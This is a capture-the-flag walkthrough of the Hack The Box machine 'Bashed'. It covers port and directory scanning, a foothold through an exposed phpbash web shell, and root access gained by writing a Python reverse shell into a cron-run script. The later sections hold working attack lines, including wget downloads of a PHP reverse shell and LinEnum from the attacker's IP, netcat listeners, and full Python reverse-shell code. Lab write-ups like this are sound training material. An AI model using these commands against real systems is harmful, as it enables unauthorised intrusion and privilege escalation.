# Bashed - Walkthrough


Bashed is a fairly easy machine that focuses mainly on fuzzing and locating important files. Direct access to cron jobs is restricted.

# Initial Setup

To begin we will add the IP address we are given to our `/etc/hosts` file so we don’t have to memorize the IP and can reference the host by name. In the case we will use `bashed.htb`.

```bash
sudo mousepad /etc/hosts
```



# Enumerations

## nmap

As always we will begin with an nmap scan of our target.

```bash
 sudo nmap -Pn -A -T4 bashed.htb -oA initial.bashed.htb
```

`-Pn` - to jump right into port scanning because we know the host is up

`-A` - 3 in 1 switch (to include: -sC, -sV, -O)

`-T4` - fastest you should scan with nmap with also the least chance of missing something

`-oA` - to output our results into: grepable, regular text, and .xml formatting (.gnmap, .nmap, .xml)



Now that the scan has finished we can see there seems to be only 1 port open (Port 80).

### Port 80 - Arrexel's Dev Site
Alright from our scan results we will focus on this port. I'm gonna go ahead and start a feroxbuster scan to run in the background, then navigate to the web page to see what we find.



Web applications landing page.



The only other noticeable link within the web appr leads us to this GitHub.



After a few minutes we find that the application so far has very little functionality, but it does link the GitHub repository related to this machine. It discloses a few potential interesting endpoints for us to possibly check out, but for now lets go back to our ferox scan and see what it found.

#### feroxbuster

```bash
feroxbuster -u http://bashed.htb
```



We see that the scan has completed and identified multiple endpoints, a few of which sparked interest, so let's check them out.

```bash
http://bashed.htb/uploads/
```
```bash
http://bashed.htb/dev/
```
```bash
http://bashed.htb/php/
```





The uploads directory didn't prove promising. In the GitHub repository, we saw references to upload functionality that could place files in this directory, potentially allowing execution of a PHP reverse shell. As for the other directories we had success with `/dev` and `/php`. We also saw in the GitHub the `phpbash.php` and `phpbash.min.php`. These files are an interactive CLI. This ended up being our initial foothold.

Let's navigate over to the `phpbash.php` file to interact with the cli and do some quick enumeration:

```bash
pwd
```
```bash
sudo -l
```
```bash
ls -la /home
```
```bash
ls -la /home/scriptmanager
```
```bash
ls -la /home/arrexel
```
```bash
cat /home/arrexel/user.txt
```

# Exploitation



 From the web shell, we are running as a low-privilege user, which still allows access to the user flag. It didn't take long with only a few commands but we come to find that we can freely snag our user.txt flag as well as having `sudo` permissions to run commands as the `scriptmanager` user. 

# Post-Compromise Enumeration

To speed up my enumeration I tried to upload LinPEAS and was able to successfully install it and run it, but for whatever reason received no output. Since that didn't work I just went with LinEnum and directed the output to a file. I started a simple http server in the directory that held my `LinEum.sh` file and utilized wget in order to download our enumeration file onto the bashed box.

```bash
python3 -m http.server
```

In bashed terminal use these.
```bash
wget http://AttackerIP:8000/LinEnum.sh
```
```bash
chmod 777 LinEnum.sh;./LinEnum.sh > linenum.sh
```

After running this command we can cat out the file and review it manually, or if you are familiar with its output grep it. I normally don't use this one, so I am not as familiar with its output.

After reviewing the output, nothing proved to be useful right away, so I did a search to see what `scriptmanager` has access to.

```bash
sudo -u scriptmanager find / -user scriptmanager 2>/dev/null
```



With some luck I was able to identify an interesting directory that this user owned, so we will check it out.



After looking into the directory and seeing what this file does, it creates a text file that contains the phrase "testing 123!". I wonder what we can do with this. This immediately stood out as a likely privilege escalation path.

After realizing that I can't really edit the file in the browser state I've been executing commands in... I decided to try and establish a reverse shell.



This is the php file upload of choice I normally go with. You can search for the highlighted area in the image above, on Google to find this file. Once you are there, copy the raw text of this file and put it into a file on your Attack machine.



Before you close out we need to edit these two fields to you `Attack Machine + Port` you want to use. Then click save, close out and host a web server. We are going to do another `wget`.

```bash
python3 -m http.server
```
In another tab on your attacker machine setup a netcat listener.
```bash
nc -nvlp 8888
```
In the `bashed` machine, ensure you are in the `/var/www/html/uploads` directory and then grab the reverse shell from your attacker machine with `wget`.
```bash
wget http://10.10.15.203/revshell.php
```



Now backing up to our enumeration phase we know that there was an uploads folder we found with our ferox scan so let's navigate to:
```bash
/uploads/revshell.php
```
establish our shell with our listener.



Now to stabilize the shell.

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
Hit Ctl+Z to background
```bash
stty raw -echo;fg
```
```bash
export TERM=xterm
```



Success! We have stabilized the shell. Whenever you go to do this make sure you double check the version of python you use because that will dictate what version number (if any at all) you will add to the end of "python". Now we can get back to editing the `test.py` located over in `/scripts`. First let's set up a netcat listener again, in a new tab. This will be for the cron job that executes this soon to be updated script to call back to us as the `root` user.

```bash
nc -nvlp 8887
```
```bash
sudo -u scriptmanager vi /scripts/test.py
```

For this we are going to add another reverse shell that is python based from Swisskyrepo’s InternalAllTheThings repository site. If we navigate over to his site we can copy and paste the correct version (the python one since this is a python script) and save it. After that we just wait for the script to execute and check out netcat listener.



Don't forget to edit your IP and Port you plan to use.

```bash
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.15.203",8887))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/sh","-i"])
```



Now that we wrote to the file and quit out of the `vi` utility we are now just waiting for the shell call back.



Cron job execution successful. This reinforced how dangerous writable scripts are when they run on a schedule with misconfigurations. Happy Hacking!

## Key Takeaways
